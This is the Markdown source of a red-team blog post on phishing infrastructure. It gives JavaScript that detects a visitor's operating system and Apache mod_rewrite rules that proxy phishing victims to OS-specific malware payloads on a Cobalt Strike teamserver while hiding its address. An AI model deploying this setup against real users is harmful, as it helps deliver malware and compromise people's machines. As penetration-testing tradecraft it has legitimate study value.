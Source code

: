 ```yaml
---
layout: post
title: Operating System Based Redirection with Apache mod_rewrite
summary: Redirect your phishing victims to different payloads or sites based on their operating system.
---
```


At times you may find yourself testing an environment comprised of a fair mix of operating systems. Maybe the marketing department is half Windows and half Mac OS X. In these cases, it may not be feasible to determine users' operating systems via a preliminary phish.

OS detection is nothing new. The goal of this method is to allow us to perform detection and proxying in one place while looking as legitimate as possible to the phish victim. No URL changing, no excessive page reloads and refreshes. This detection method is similar to my [previous post]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/) about redirecting mobile users; however, leveraging JavaScript provides a more reliable method of operating system detection.


![OS Detection Demo](/assets/apache/os-detection-demo.gif)

{:#os-detector-page}

# OS Detector Page

The HTML code below (based on OS detection code from [javascripter.net](http://www.javascripter.net/faq/operatin.htm)) uses JavaScript to detect the user's OS and appends a URL parameter (*os_id*) to the end of the request. If the user's OS doesn't match Windows, Mac OS X, Unix, or Linux, *unknown* will be assigned to the *os_id*.

The HTML only needs to be modified if you are using the parameter *os_id* in one of the payloads or if you opt to add more granular detection, such as by OS version. The HTML file should be hosted on a Cobalt Strike teamserver or other pivoting server, such as a redirector.

```html
<html><head></head>
<body>

<script>
var url_base='http://'+window.location.host;
var OSName="unknown";
var query_string=document.location.search;
var request_path=window.location.pathname.substr(1);
if (navigator.appVersion.indexOf("Win")!=-1) OSName="windows";
if (navigator.appVersion.indexOf("Mac")!=-1) OSName="mac";
if (navigator.appVersion.indexOf("X11")!=-1) OSName="unix";
if (navigator.appVersion.indexOf("Linux")!=-1) OSName="linux";

var os_string='&os_id='+OSName;
if (query_string == '') os_string='?os_id='+OSName;
if (query_string.indexOf("os_id=")!=-1) os_string='';

window.location.replace(url_base+'/'+request_path+query_string+os_string);

</script>

</body></html>
```

{:#mod_rewrite-rules}

# mod_rewrite Rules

The following ruleset should be placed in a *.htaccess* file on your Apache redirector. Replace the *TEAMSERVER-IP* and OS payload placeholders with the IP and paths that correspond to your infrastructure for the campaign. The *OS-DETECTOR* placeholder should be replaced by the path of the above HTML file on your teamserver.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=mac</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/MAC-OS-X-PAYLOAD</span> <span style="color: tomato">[P]</span><br>

RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=windows</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/WINDOWS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unix</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNIX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=linux</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/LINUX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unknown</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNKNOWN-OS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/OS-DETECTOR.HTML</span> <span style="color: tomato">[P]</span><br>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'mac':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'MAC-OS-X-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'windows':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'WINDOWS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unix':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNIX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'linux':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'LINUX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unknown':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNKNOWN-OS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If none of the above conditions are met, <span style="color: gold">change the entire request</span> <span style="color: orange">to serve 'OS-DETECTOR.HTML' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
</div>


In short, the ruleset checks requests for each of the OS parameters and proxies requests to the the designated payload path. The user's address bar will still read the path to they entered or clicked to get to the OS detector. As it's written, the ruleset redirects any request received to the *.htaccess* file's directory and any subdirectory to the OS detector page. If you would like to selectively redirect to that file, you can add a RewriteCond line above and catch-all RewriteRule line on the last line. See my previous mod_rewrite post about [invalid uri redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite) of for a more specific example.

{:#expanding-capabilities}

# Expanding Capabilities

Since the detection is simply using JavaScript to fingerprint the end-user's host and using mod_rewrite to determine the correct page to serve, one could easily expand the script to serve payloads based upon any number of criteria. For instance, the script above doesn't detect specific versions of operating systems. If that level of granularity is required, consider using the user agent to perform detection. 

An example would be to change the conditional statement in the HTML page from:

```javascript
navigator.appVersion.indexOf("Win")!=-1
```

to

```javascript
navigator.userAgent.indexOf("Windows NT 6.1")!=-1
```

The second conditional line checks for Windows 7 rather than just Windows. User agents can be spoofed or removed, so be it's a good idea to build in a backup detection method if you aren't sure the user agents will be in tact.

{:#summary}

# Summary

Operating system detection enables phishing campaigns to serve payloads based upon maximum impact per host type, rather than broadest applicability. This allows you to tailor not only the infection vector, such as Java vs. HTA, but also the post-exploit toolset, such as Cobalt Strike vs. Metasploit, based upon the likelihood of success. This capability can be extended even further to serve up specific operating system or application versions. 


# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* [Invalid URI Redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/)
* Operating System Based Redirection with Apache mod_rewrite
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)
* [Expire Phishing Links with Apache RewriteMap]({{site.baseurl}}/2016-04-19-expire-phishing-links-with-apache-rewritemap/)


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)